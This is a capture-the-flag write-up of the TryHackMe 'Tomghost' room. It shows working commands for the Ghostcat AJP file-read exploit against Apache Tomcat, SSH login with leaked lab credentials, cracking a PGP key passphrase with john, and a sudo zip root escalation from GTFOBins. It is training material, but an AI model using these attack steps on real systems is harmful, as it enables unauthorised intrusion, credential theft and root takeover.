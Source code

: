 # Tomghost

Starting with basic recon:
```sh
nmap -sV $ip -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 08:19 CEST
Nmap scan report for 10.10.46.67
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got a few services running but I can instantly see an application running on Port `8080` named Tomcat. <br/>
So I would just make a quick browser search for known exploits. <br/>

![grafik](https://github.com/Aryt3/writeups/assets/110562298/8f316966-b846-4017-a809-1160fd813237)

Now I could take a look around the website and try to find something but there seem to be a lot of exploits for Tomcat. <br/>
So this leads me to https://www.exploit-db.com/exploits/48143. <br/>
Using the exploit:
```sh
python2 exploit.py 10.10.46.67 -p 8009 -f WEB-INF/web.xml
Getting resource at ajp13://10.10.46.67:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

After successfully retrieving user creds I try to login:
```sh
ssh skyfuck@$ip       
The authenticity of host '10.10.46.67 (10.10.46.67)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.46.67' (ED25519) to the list of known hosts.
skyfuck@10.10.46.67's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ whoami
skyfuck
```

Taking a look around:
```sh
skyfuck@ubuntu:~$ pwd
/home/skyfuck
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

Before taking a closer look at those files I want to look around further.
```sh
skyfuck@ubuntu:~$ ls /home/
merlin  skyfuck
skyfuck@ubuntu:~$ ls /home/merlin
user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{REDACTED}
```

Seems like we got our first flag. <br/>
The next thing would be to escalate priviledges.
```sh
skyfuck@ubuntu:~$ sudo -l
[sudo] password for skyfuck: 
Sorry, user skyfuck may not run sudo on ubuntu.
```

Now this didn't work, I could look around more but my guess is that I have to use the 2 files from earlier. <br/>
Copying the files to my local machine:
```sh
scp skyfuck@$ip:/home/skyfuck/* .                               
skyfuck@10.10.46.67's password: 
credential.pgp                                                                          100%  394     2.7KB/s   00:00    
tryhackme.asc                                                                           100% 5144    34.9KB/s   00:00
```

After some research I found a way to use john to bruteforce the .gpg file.
```sh
└─# gpg2john tryhackme.asc > abc.gpg

File tryhackme.asc
                                                                                                                    
└─# ls
abc.gpg  credential.pgp  tryhackme.asc

└─# cat abc.gpg       
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

└─# john --wordlist=Desktop/rockyou.txt abc.gpg            
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
No password hashes left to crack (see FAQ)

└─# john --show abc.gpg                        
tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left

└─# gpg --import tryhackme.asc      
gpg: /root/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(root㉿kali)-[/home/kali/tryhackme/tomghost]
└─# gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j   
```

Like this I was able to get the password for user merlin, so now I only need to switch to this user.
```sh
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```

The only thing left now is priv esc so let's see what we got elevated permissions for.
```sh
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So seeing we can execute the binary zip as root we can take a look at gtfobins. <br/>
Here we find several ways to exploit this binary: https://gtfobins.github.io/gtfobins/zip/.
```sh
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

Getting the last flag:
```sh
# cd /root/
# ls
root.txt  ufw
# cat root.txt  
THM{REDACTED}
```
